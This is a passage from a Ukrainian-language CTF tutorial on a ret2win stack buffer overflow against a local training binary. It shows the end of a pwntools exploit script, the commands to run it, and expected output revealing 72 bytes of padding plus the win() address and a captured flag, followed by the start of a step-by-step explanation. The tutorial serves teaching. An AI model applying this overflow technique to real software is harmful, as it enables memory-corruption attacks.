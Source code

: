 ```python
log.info(f"Довжина payload: {len(payload)} байт")

# Відправляємо exploit
io.sendline(payload)

# Отримуємо відповідь
response = io.recvline()
log.info(f"Відповідь: {response.decode().strip()}")

# Отримуємо прапор
flag = io.recvline()
log.success(f"Прапор: {flag.decode().strip()}")

io.close()
```

### Крок 5: Запустіть exploit

```bash
chmod +x exploit.py
python3 exploit.py
```

### Крок 6: Отримайте прапор

Очікуваний вивід:
```
[*] '/path/to/build/stage06_ret2win'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
[*] Адреса win(): 0x401136
[+] Starting local process
[*] Отримали підказку
[*] Payload: 72 байт padding + адреса win()
[*] Довжина payload: 80 байт
[*] Відповідь: hi AAAAAAA...
[+] Прапор: FLAG{STAGE6_RET2WIN}
```

## 🔍 Детальний розбір

## 🎬 Покадрова анімація Buffer Overflow

Давайте детально розглянемо ЩО САМЕ відбувається на кожному кроці:

### Кадр 0: Програма починається

```c
int main(void) {
    vuln();    // Викликаємо вразливу функцію
    return 0;  // ← Сюди ми НЕ повернемося!
}
```
